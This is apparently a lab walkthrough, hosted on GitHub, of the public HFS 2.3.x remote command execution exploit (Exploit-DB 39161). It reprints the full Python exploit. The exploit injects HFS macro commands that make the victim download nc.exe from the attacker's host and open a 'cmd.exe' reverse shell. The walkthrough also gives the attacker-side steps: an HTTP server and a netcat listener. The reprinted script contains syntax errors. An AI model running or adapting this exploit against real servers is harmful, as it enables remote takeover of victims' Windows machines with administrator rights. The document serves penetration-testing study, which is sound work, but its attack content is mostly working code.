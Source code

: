 # HFS 2.3.x remote command execution 

<https://www.exploit-db.com/exploits/39161>

after decode the whole exploit, we can see

~~~~python
#!/usr/bin/python
...
import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " save ".}")

	def execute_script():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe ".}")

	def nc_run():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe1 ".}")

	ip_addr = "192.168.1.13" #local IP address
	local_port = "443" # Local Port number
	
    vbs = "C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with"

	save= "save|"   vbs
	vbs2 = "cscript.exe C:\Users\Public\script.vbs"
	exe= "exec|" vbs2
	vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
	exe1= "exec|" vbs3
    
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
~~~~

## Background Knowledge

**netcat** is a simple unix utility which reads and writes data across network connections, using TCP or UDP protocol. It has both Windows and Linux version.

- It is a versatile command which can assist you in monitoring, testing, and sending data across network connections.

- Netcat is not restricted to sending TCP and UDP packets. It also can listen on a port for connections and packets.  

![1559891515085](./pic/reverseShellSenario.JPG)

# Prepare for the attack

let's launch the attack from famous Kali. Before exploit the vulnerability of HFS, we need to have some simple set up on Kali.

## setup simple http server with python

~~~~bash
#> python3 -m http.server 80
~~~~

![t <](./pic/1559887359290.png)

## prepare nc.exe for being downloaded from victim machine

copy nc.exe from /usr/share/windows-binaries/ to the same location where we start http server, so when exploit is running on the victim machine, the nc.exe will be downloaded from here.

```bash
#> cp /usr/share/windows-binaries/nc.exe .
```



## run netcat on Kali to listen for connection from victim machine

~~~~bash
#> nc -lvnp 443
~~~~

# start exploit

## run the python script for HFS RCE

~~~~bash
#> python ./39161.py
~~~~

now we get the reverse connection from windows

![1559891951200](./pic/getReverseShell.JPG)

It look like the HFS is running as admin, so we get the control as administrator after get our command executed remotely, pretty simple!

let's take a look at what happened on the victim windows. Under the C:\Users\Public\, we see nc.exe and script just generated by the exploit.

![1559892252642](./pic/snapshotOfCompromisedWindows.JPG)